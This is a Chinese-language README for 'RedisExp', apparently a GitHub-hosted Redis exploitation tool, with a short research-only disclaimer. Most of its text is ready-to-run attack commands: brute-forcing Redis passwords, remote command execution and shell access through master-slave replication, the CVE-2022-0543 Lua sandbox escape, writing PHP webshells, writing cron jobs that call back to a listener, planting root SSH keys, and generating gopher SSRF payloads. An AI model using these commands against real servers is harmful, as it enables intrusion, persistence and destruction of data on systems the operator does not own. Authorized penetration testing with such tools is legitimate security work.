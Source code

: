 ## Redis 漏洞利用工具


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------


```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

基本连接: 
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456

爆破 Redis 密码:
RedisExp.exe brute -r 192.168.19.1 -f pass.txt

主从复制执行命令 (默认是交互式 shell)(Redis版本 4.x - 5.x):
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1 -c whoami (单次执行)
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1 -f exp.so (Linux)

主从复制文件上传 (windows 中文需要设置gbk)(Redis版本 4.x - 5.x):
RedisExp.exe upload -r 192.168.19.1 -L 127.0.0.1 -d c:\\中文\\ -f shell.php -F shell.txt -g
RedisExp.exe upload -r 192.168.19.1 -L 127.0.0.1 -f shell.php -F shell.txt

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe lua -r 192.168.19.6 -c whoami

备份写 Webshell (Windows 中文路径要设置gbk, linux 中文路径不用设置):
RedisExp.exe shell -r 192.168.19.1 -d c:\\中文\\ -f shell.php -s "<?php phpinfo();?>" -g

Linux 写计划任务:
RedisExp.exe cron -r 192.168.19.1 -L 127.0.0.1 -P 2222

Linux 写 SSH 公钥:
RedisExp.exe ssh -r 192.168.19.1 -u root -s "ssh-rsa AAAAB"

执行 Redis 命令:
RedisExp.exe cli -r 192.168.19.1

生成 gopher ssrf redis payload: 
RedisExp.exe gopher -f 1.txt

```



1. 具体命令使用 -h 来查看
2. exp.dll 和 exp.so 来自 https://github.com/0671/RabR 已经把内容分别加载到 dll.go 和 so.go 可以直接调用。
3. Windows 中文路径需要设置gbk，使用 -g 参数就可以了。



### 报错

```
工具报错：[ERR Error loading the extension. Please check the server logs.]        module load /tmp/exp.so

服务端报错：Module /tmp/exp.so failed to load: It does not have execute permissions.
```

有可能是 Redis 版本太高， exp.so 没有执行权限导致加载不了。具体需要查看服务端的报错



### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher

 

